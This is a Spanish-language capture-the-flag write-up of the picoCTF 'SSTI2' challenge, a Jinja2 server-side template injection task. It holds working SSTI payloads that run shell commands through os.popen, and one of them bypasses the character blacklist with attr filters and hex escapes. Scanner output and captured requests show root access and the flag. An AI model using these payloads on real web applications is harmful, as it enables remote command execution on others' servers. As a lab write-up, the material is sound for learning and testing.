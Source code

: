 ```yaml
---
title: SSTI2
date: 2025-07-22 23:00:00 +0200
categories: [writeup, picoctf]
tags: [picoctf, explotación web]     
image:
    path: https://picoctf.org/img/logos/pico-mark.svg
    alt: PicoCTF
---
```

>SSTI2
Author: Venax
Description
I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :) I heard templating is a cool and modular way to build web apps! Check out my website here!
{: .prompt-tip }

El reto se inicia con un formulario web que propone una entrada para hacer un anuncio, introduces un texto y se muestra en otra página en letras grandes.

```html
 Home

I built a cool website that lets you announce whatever you want!*
What do you want to announce: 
```

Si echamos la vista atrás en en reto [pico-ctf-sst1](../pico-ctf-sst1) ya hacíamos esta comprobación de provocar un error al introducir una división por zero y en este reto podemos hacer lo mismo, obteniendo el primer positivo al introducir { {1/0} }, en principio un positivo.

``` html
Internal Server Error
The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.
```

En dicha ocasión me valí de **Sttimap** una herramienta que automatiza el proceso de explotación de este tipo de vulnerabilidades. Esta vez la detección nos dice que no puede levantar una shell, pero parece que sí hay un punto de inyección con motor Jinja2, supuestamente vulnerable. Toca seguir escarbando.

``` shell
(sstimap) pablo☠office sstimap$ ./sstimap.py  -f --os-shell --url="http://shape-facility.picoctf.net:52506"

    ╔══════╦══════╦═══════╗ ▀█▀
    ║ ╔════╣ ╔════╩══╗ ╔══╝═╗▀╔═
    ║ ╚════╣ ╚════╗  ║ ║    ║{║  _ __ ___   __ _ _ __
    ╚════╗ ╠════╗ ║  ║ ║    ║*║ | '_ ` _ \ / _` | '_ \
    ╔════╝ ╠════╝ ║  ║ ║    ║}║ | | | | | | (_| | |_) |
    ╚══════╩══════╝  ╚═╝    ╚╦╝ |_| |_| |_|\__,_| .__/
                             │                  | |
                                                |_|
[*] Version: 1.2.3
[*] Author: @vladko312
[*] Based on Tplmap
[!] LEGAL DISCLAIMER: Usage of SSTImap for attacking targets without prior mutual consent is illegal.
It is the end user's responsibility to obey all applicable local, state and federal laws.
Developers assume no liability and are not responsible for any misuse or damage caused by this program
[*] Loaded plugins by categories: languages: 5; generic: 3; legacy_engines: 2; engines: 17
[*] Loaded request body types: 4

[*] Starting form detection...
[+] Form found: POST http://shape-facility.picoctf.net:52506/ "content="
[*] Scanning form with url: http://shape-facility.picoctf.net:52506/
[+] SSTImap identified the following injection point:

  Body parameter: content
  Engine: Jinja2
  Injection: *
  Context: text
  OS: undetected
  Technique: render
  Capabilities:

    Shell command execution: no
    Bind and reverse shell: no
    File write: no
    File read: no
    Code evaluation: no

[-] No system command execution capabilities have been detected on the target.
```

Al capturar con Zap proxy el request, me doy cuenta de el el request se codifica antes de ser enviado. 

``` html
POST http://shape-facility.picoctf.net:52506/ HTTP/1.1
Host: shape-facility.picoctf.net:52506
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: http://shape-facility.picoctf.net:52506
Connection: keep-alive
Referer: http://shape-facility.picoctf.net:52506/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

content=%7B%7B3*3%7D%7D
```

%7B%7B3*3%7D%7D = {\{3*3}\} 

Busqué un payload que funcionase con esta vulnerabilidad y encontré lo que me pareción muy razonable. Pues supuestamente estaríamos haciendo que este motor ejecute instrucciones de Python, por lo que podemos intentar algo así:

[https://github.com/Jieyab89/Jinja2-python-or-flask-SSTI-vulnerability-payload-](https://github.com/Jieyab89/Jinja2-python-or-flask-SSTI-vulnerability-payload-)

>\{\{ request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('whoami')['read']() \}\}

Sin embargo el la web del formulario al enviar este payload nos envía a una web con el siguente mensaje

``` html 
Stop trying to break me >:(
```

Bueno no es la flag pero nos da una pista, si además hacemos caso de las pistas proporcionadas "Why is blacklisting characters a bad idea to sanitize input?", ¿Es posible que haya algún caracter(es) que filtre el formulario?.

Al hacer el request y capturar con Zap nos muestra que hay ciertos caracteres que no se está encodeando.

``` html
POST http://shape-facility.picoctf.net:52506/ HTTP/1.1
Host: shape-facility.picoctf.net:52506
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/x-www-form-urlencoded
Content-Length: 192
Origin: http://shape-facility.picoctf.net:52506
Connection: keep-alive
Referer: http://shape-facility.picoctf.net:52506/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

content=%7B%7B+request%5B%27application%27%5D%5B%27__globals__%27%5D%5B%27__builtins__%27%5D%5B%27__import__%27%5D%28%27os%27%29%5B%27popen%27%5D%28%27whoami%27%29%5B%27read%27%5D%28%29+%7D%7D
```

Encontré un payload aún más razonable respecto a lo comenta su autor. evitar que un WAF detecte ciertos caracteres como "_" o el ".", además este payload está adaptado a Jinja2. Por cierto muy interesante el repositorio, está lleno de payloads.
[https://github.com/swisskyrepo/PayloadsAllTheThings/pull/181/commits/7e7f5e762831266b22531c258d628172c7038bb9](https://github.com/swisskyrepo/PayloadsAllTheThings/pull/181/commits/7e7f5e762831266b22531c258d628172c7038bb9)

## ¿Qué es attr en Jinja2?
En Jinja2, attr es un filtro que sirve para acceder a un atributo de un objeto de forma dinámica usando el nombre del atributo como cadena.
Se utiliza cuando se hace uso de Jinja2 en un proyecto de esta forma. Y es la misma forma que vamos a probar para lanzar comandos.

\{\{ obj|attr('nombre_atributo') \}\}

## Generando un payload dirigido

\{\{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()\}\}

Resultado somos root
```
uid=0(root) gid=0(root) groups=0(root) 
```
Buscamos la flag primero lanzando un ls

\{\{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()\}\}

Encontramos el archivo flag
```
__pycache__ app.py flag requirements.txt 
```
Ya solo queda leer el archivo

\{\{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()\}\}

```
picoCTF{sst1_f1lt3r_byp4ss_0ef4bd3d}
```
flag: **picoCTF{sst1_f1lt3r_byp4ss_0ef4bd3d}**

Nota: Si alguno de estos payloads no te funciona prueba a juntar las llaves "{" pues es problemático para Chirpy.